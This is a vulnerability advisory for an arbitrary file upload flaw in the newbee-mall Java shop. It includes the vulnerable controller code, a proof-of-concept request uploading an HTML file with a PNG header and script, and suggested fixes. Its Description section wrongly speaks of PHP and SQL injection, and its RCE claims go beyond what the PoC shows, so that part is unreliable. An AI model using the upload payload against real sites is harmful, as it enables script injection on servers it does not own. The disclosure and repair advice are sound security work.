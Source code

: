 

## Title: [arbitary-file-upload] in [newbee-mall] <= [v1.0]

# **BUG_Author:** [intSheep,yaklang. io, IRify]

## Product Information
- **Software Link:** [link](https://github.com/newbee-ltd/newbee-mall)
- **Affected Version:** [<= v1.0]
- **BUG Author:** intSheep,yaklang. io, IRify

## Vulnerability Details
### Vulnerable Files
- `ltd/newbee/mall/controller/common/UploadController.java`

### Vulnerability Type
- Arbitrary File Upload (CWE-434)

### Root Cause
**Insufficient File Type Validation:**
   - The application relies solely on client-side file extension validation
   - No server-side MIME type verification is implemented
   - File extension can be easily manipulated by attackers


```java
// line:57 
 @PostMapping({"/upload/file"})
    @ResponseBody
    public Result upload(HttpServletRequest httpServletRequest, @RequestParam("file") MultipartFile file) throws URISyntaxException, IOException {
        String fileName = file.getOriginalFilename();
        BufferedImage bufferedImage = ImageIO.read(file.getInputStream());
        if (bufferedImage == null) {
            return ResultGenerator.genFailResult("请上传图片类型的文件");
        }
        String suffixName = fileName.substring(fileName.lastIndexOf("."));
        //生成文件名称通用方法
        SimpleDateFormat sdf = new SimpleDateFormat("yyyyMMdd_HHmmss");
        Random r = new Random();
        StringBuilder tempName = new StringBuilder();
        tempName.append(sdf.format(new Date())).append(r.nextInt(100)).append(suffixName);
        String newFileName = tempName.toString();
        File fileDirectory = new File(Constants.FILE_UPLOAD_DIC);
        //创建文件
        File destFile = new File(Constants.FILE_UPLOAD_DIC + newFileName);
        try {
            if (!fileDirectory.exists()) {
                if (!fileDirectory.mkdir()) {
                    throw new IOException("文件夹创建失败,路径为：" + fileDirectory);
                }
            }
            file.transferTo(destFile);
            Result resultSuccess = ResultGenerator.genSuccessResult();
            resultSuccess.setData(NewBeeMallUtils.getHost(new URI(httpServletRequest.getRequestURL() + "")) + "/upload/" + newFileName);
            return resultSuccess;
        } catch (IOException e) {
            e.printStackTrace();
            return ResultGenerator.genFailResult("文件上传失败");
        }
    }
```

### Impact
- Remote Code Execution (RCE) through malicious file upload, leading to complete server compromise
- Unauthorized access to sensitive data and system resources, potentially exposing user information and business data
- System integrity compromise, enabling attackers to modify files, install backdoors, and maintain persistent access


## Description
1. **Vulnerability Details:**
    - In the this php code, username parameter is directly concatenated into SQL statement
    - Both locations contain classic SQL injection vulnerabilities
    - No input validation or escaping mechanisms implemented

2. **Attack Vectors:**
    - Attackers can manipulate SQL query structure using special characters
    - Additional information can be extracted using UNION queries
    - Database information can be obtained through boolean-based blind injection
    - Error-based injection might reveal more information

## Code Scan

this vulnerability find by [IRify](ssa.to) :
![img.png](img/arbitrary-file-upload-01.png)



## Proof of Concept

this valnerability validation by [Yakit](https://www.yaklang.io/)

1. **Attack Packet**
   
   Fill in the PoC after uploading the content as an image.
```plaintext
POST /admin/upload/file HTTP/1.1
Host: 127.0.0.1:28089
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVhv77D8bkWJbZjNQ
Origin: http://127.0.0.1:28089
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: iframe
Upgrade-Insecure-Requests: 1
Cookie: JSESSIONID=54840FE688340342C57B5295A28B8E5D
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Mode: navigate
Referer: http://127.0.0.1:28089/admin/carousels
Content-Length: 404

------WebKitFormBoundaryVhv77D8bkWJbZjNQ
Content-Disposition: form-data; name="file"; filename="white.html"
Content-Type: image/png

{{unquote("\x89PNG\x0d\x0a\x1a\x0a\x00\x00\x00\x0dIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x02\x00\x00\x00\x90wS\xde\x00\x00\x00\x0cIDATx\x9cc\xf8\xff\xff?\x00\x05\xfe\x02\xfe\x0d\xefF\xb8\x00\x00\x00\x00IEND\xaeB`\x82")}}
<script>alert('test')</script>
------WebKitFormBoundaryVhv77D8bkWJbZjNQ--
```
   ![img.png](img/arbitrary-file-upload-02.png)
   ![img.png](img/arbitrary-file-upload-03.png)

## Suggested Repairs
1. Implement File Type Validation
   ```java
   private boolean isValidFileType(String fileName) {
       String[] allowedExtensions = {"jpg", "jpeg", "png", "gif"};
       String extension = fileName.substring(fileName.lastIndexOf(".") + 1).toLowerCase();
       return Arrays.asList(allowedExtensions).contains(extension);
   }
   ```

2. Add Content-Type Verification
   ```java
   private boolean isValidContentType(String contentType) {
       String[] allowedTypes = {"image/jpeg", "image/png", "image/gif"};
       return Arrays.asList(allowedTypes).contains(contentType);
   }
   ```

3. Security Recommendations
    - Store uploaded files outside web root directory
    - Rename files to prevent overwriting and path traversal
    - Implement file size restrictions
    - Add anti-virus scanning for uploaded files
    - Use secure random file names without preserving original extensions
    - Implement proper access controls for uploaded files
    - Set appropriate file permissions (read-only)

## Additional Information
- Refer to OWASP File Upload Security Guide
- Consider using secure file handling libraries
- Implement comprehensive logging for file upload operations
- References:
    - OWASP File Upload Cheat Sheet
    - CWE-434: Unrestricted Upload of File with Dangerous Type
    - OWASP Top 10: A5:2021 – Security Misconfiguration

The severity of this vulnerability is CRITICAL, and immediate remediation is recommended as it poses a serious threat to the system's security.

Mitigation Timeline:
- Immediate: Implement file type validation and content-type verification
- Short-term: Move storage location outside web root and implement proper naming
- Long-term: Develop comprehensive file security strategy with scanning and monitoring

This vulnerability requires immediate attention due to its potential for remote code execution and system compromise. 